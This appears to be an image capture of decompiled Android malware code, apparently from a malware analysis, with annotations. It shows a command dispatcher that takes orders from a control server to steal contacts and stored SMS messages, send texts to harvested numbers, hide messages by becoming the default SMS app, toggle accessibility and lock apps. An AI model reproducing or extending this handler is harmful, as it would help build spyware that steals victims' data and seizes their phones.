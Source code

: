 ```cs
                                globalService0.Tools.startPermissionsNoDoze(globalService0);
                            }
                            else if(s6.equals("START_PERMISSIONS2")) {
                                globalService0.Tools.startPermissions(globalService0);
                            }
                            else if(s6.equals("START_ADVANCED_PERMISSIONS")) {
                                globalService0.Tools.startPermissions2(globalService0);
                            }
                            else if(s6.equals("DISABLE_ACCESSIBILITY")) { // disable accessibility 
                                globalService0.Tools.enableAppProtection(globalService0, false);
                            }
                            else if(s6.equals("ENABLE_ACCESSIBILITY")) {
                                globalService0.Tools.enableAppProtection(globalService0, true);
                            }
                            else if(s6.equals("ENABLE_MOBILE_DATA")) { // to enable mobile data
                                Utils.popUpMobileData(this);
                            }
                            else if(s6.equals("GET_CONTACTS")) { // send contacts to the C2 server
                                globalService0.Tools.getAllContacts(globalService0);
                            }
                            else if((s6.equals("SEND_SMS")) && (Utils.hasThisPermission(globalService0, "sms"))) { // send messages to the stolen numbers
                                String s16 = jSONObject2.getString("SEND_TO");
                                String s17 = jSONObject2.getString("SEND_MSG");
                                globalService0.Tools.SendSMSMessage(globalService0, s16, s17);
                            }
                            else if(s6.equals("ALL_SMS")) { // send the stored SMSs on the user device to the C2 server
                                globalService0.Tools.getAllSMS(globalService0);
                            }
                            else if(s6.equals("ENABLE_HIDDEN_SMS")) { // hide the SMSs by seting the malware as default messageing app
                                globalService0.Tools.startHiddenSMS(globalService0, true);
                            }
                            else if(s6.equals("DISABLE_HIDDEN_SMS")) {
                                globalService0.Tools.startHiddenSMS(globalService0, false);
                            }
                            else if(s6.equals("STOP_SERVICE_LISTENER")) {
                                ServiceNLStarter.stopMe = true;
                            }
                    }
                     else {
                                boolean z3 = s6.equals("START_LOCK");
                                if(z3) {
                                    String s18 = jSONObject2.getString("PKG");
                                    globalService0.store.set(globalService0, "LOCKER_PKG", s18);
                                    globalService0.Tools.startLocker(globalService0);
                                }
                                else {
                                    boolean z4 = s6.equals("START_APP_LOCK");
                                    if(z4) {
                                        String s19 = jSONObject2.getString("PKG");
                                        globalService0.store.set(globalService0, "LOCKER_APP", s19);
                                        globalService0.Tools.startAppLocker(globalService0);
                                    }
                                    else if(s6.equals("STOP_LOCK")) {
                                        globalService0.store.set(globalService0, "LOCKER_PKG", "");
                                    }
                                    else if(s6.equals("STOP_APP_LOCK")) {
                                        globalService0.store.set(globalService0, "LOCKER_APP", "");
                                    }
```